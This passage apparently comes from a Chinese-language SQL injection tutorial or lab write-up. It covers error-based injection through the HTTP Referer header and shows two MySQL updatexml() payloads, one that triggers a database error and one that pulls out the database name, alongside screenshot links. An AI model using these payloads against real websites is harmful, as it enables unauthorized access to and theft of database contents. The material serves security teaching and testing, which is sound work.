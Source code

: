 ![img](assets/GSl1ZToVvdHtMjF.jpg) 

#### 3.5.3.3.**使用报错语句进行测试**

Referer: 'and updatexml(1,0x7e,3)and '1'='1

![img](assets/twEzx1HKP5MFBSc.jpg) 

#### 3.5.3.4.**确认数据库名**

Referer: 'and updatexml(1,concat(0x7e,database()),3) and '

![img](assets/CyaVnWQK8JNM1xP.jpg) 
